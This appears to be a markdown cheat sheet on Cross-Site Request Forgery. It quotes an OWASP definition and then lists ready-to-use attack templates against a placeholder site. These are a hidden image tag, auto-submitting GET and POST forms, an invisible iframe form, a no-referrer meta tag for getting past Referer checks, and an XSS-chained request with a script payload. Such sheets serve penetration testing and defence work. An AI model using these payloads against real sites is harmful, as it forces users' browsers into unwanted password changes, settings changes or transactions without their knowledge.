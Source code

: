 # CSRF

>Cross-Site Request Forgery (CSRF) is a type of attack that occurs when a malicious web site, email, blog, instant message, or program causes a user’s web browser to perform an unwanted action on a trusted site for which the user is currently authenticated. The impact of a successful CSRF attack is limited to the capabilities exposed by the vulnerable application. For example, this attack could result in a transfer of funds, changing a password, or purchasing an item in the user's context. In effect, CSRF attacks are used by an attacker to make a target system perform a function via the target's browser without knowledge of the target user, at least until the unauthorized transaction has been committed.

Source : [OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)


##CSRF is possible when ...

* Request is known in advance and is not composed of any random values unknown from the attacker

* Server do not check the `Referer` Header

* Action should be an interesting for the attacker 
	* Password Change
	* Settings Change
	* Personal Informations Change
	* ...

##GET Requests Exploits

###Invisible mage Loading
`<img style="display:none;" src="http://vulnerable-site.com/vuln?param1=value1&param2=value2&..."/>`

###Link clicking
`<link href="http://vulnerable-site.com/vuln?param1=value1&param2=value2&...">`

```
<html> 
	<body>
		<form action="http://vulnerable-site.com/vuln" method="GET"> 
			<input type="hidden" name="param1" value="value1"/>
		</form> 
	</body>
	<script> document.forms[0].submit();</script> 
</html>
```

##POST Requests Exploits

###Visible Form
```html
<html> 
	<body>
		<form action="http://vulnerable-site.com/vuln" method="POST"> 
			<input type="hidden" name="param1" value="value1"/>
		</form> 
	</body>
	<script> document.forms[0].submit();</script> 
</html>
```

###Invisible Form
```html
<html> 
	<body>
		<iframe style="display:none" name="invisible-frame"></iframe>
		<form method='POST' action='http://vulnerable-site.com/vuln' target="invisible-frame" id="pwn-form">
		  <input type='hidden' name='param1' value='value1'>
		  <input type='submit' value='submit'>
		</form>
	</body>
	<script>document.getElementById("pwn-form").submit()</script>
</html>

```

##DELETE / PUT Requests Exploits

* `PUT` or `DELETE` requests using HTML forms is not possible as these methods are currently not supported by HTML5 Forms.

* CSRF is possible with the `PUT` and `DELETE` methods, but only with CORS enabled with an unrestrictive policy ().


##Protection Bypass

###Referer Header Check Bypass

* To send a request with no `Referer` header 
`<meta name="referrer" content="no-referrer">`

* Chain CSRF vulnerability with XSS
`POST http://vulnerable-site.com/xssvuln?id=<script type="text/javascript">window.location="http://vulnerable/vuln";</script>`